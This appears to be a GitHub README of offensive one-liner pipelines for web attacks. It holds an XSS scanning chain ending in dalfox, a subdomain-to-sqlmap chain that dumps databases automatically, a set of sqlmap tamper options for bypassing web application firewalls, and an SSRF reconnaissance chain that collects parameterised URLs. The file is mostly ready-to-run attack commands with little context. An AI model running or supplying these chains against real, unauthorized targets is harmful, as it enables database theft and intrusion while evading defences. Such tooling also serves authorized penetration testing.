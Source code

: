 # OneLiner

## XSS
``` gau testphp.vulnweb.com | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe ```

## Sqli
```
subfinder -d target.com | tee -a domains
cat domains | httpx | tee -a urls.alive
cat urls.alive | waybackurls | tee -a urls.check
gf sqli urls.check >> urls.sqli
sqlmap -m urls.sqli --dbs --batch
```
If you need to bypass WAF (Web Application Firewall) in the process, add the following options to sqlmap:

```
--level=5 --risk=3 -p 'item1' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,ifnull2ifisnull,modsecurityversioned
```

## SSRF

```
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt

cat vul1.txt vul2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt

```
